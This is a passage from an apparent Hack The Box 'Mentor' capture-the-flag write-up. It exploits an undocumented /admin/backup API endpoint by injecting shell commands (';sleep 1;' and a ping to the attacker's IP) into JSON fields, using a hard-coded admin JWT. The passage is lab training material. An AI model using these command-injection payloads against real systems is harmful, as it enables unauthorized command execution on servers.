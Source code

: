 ```json
]
```

And we can leverage that with the `undocumented` endpoint `backup`, we have found that earlyer with our dirsearch scan. After a little trial and error it's easy to figure out that the enpoint only accepts the POST method and it tells us the `loc` parameter is missing, so we add it, now it says `path` is missing, so again we add it, and finally get a successfull response. 
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/admin/backup' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -H 'Content-Type: application/json'\
  -d '{"loc": "x", "path": "xx"}'|jq .
```
```json
{
  "INFO": "Done!"
}
```

So it sounds like it could be doing someting like that in the backend
```bash
tar -cvzf <path>.tar.gz <loc>
```

Can we do some command injection?
```bash
tar -cvzf x;sleep 1;.tar.gz xx
```

Yep this works, and returns after 1 sec 
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/admin/backup' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -H 'Content-Type: application/json'\
  -d '{"loc": "x;sleep 1;", "path": "xx;sleep 1;"}'|jq .
```
```json
{
  "INFO": "Done!"
}
```

## The TCPDump tangent
Since we're shamelessly following ipssec's video at this stage, i'm also trying the tcpdump listerner to catch ICMP packets, taking notes as this isn't the first time I see this, and I think it's pretty cool.
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/admin/backup' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -H 'Content-Type: application/json'\
  -d '{"loc": "x", "path": "xx;ping -c2 10.10.14.130;"}'|jq .

```
```json
{
  "INFO": "Done!"
}
```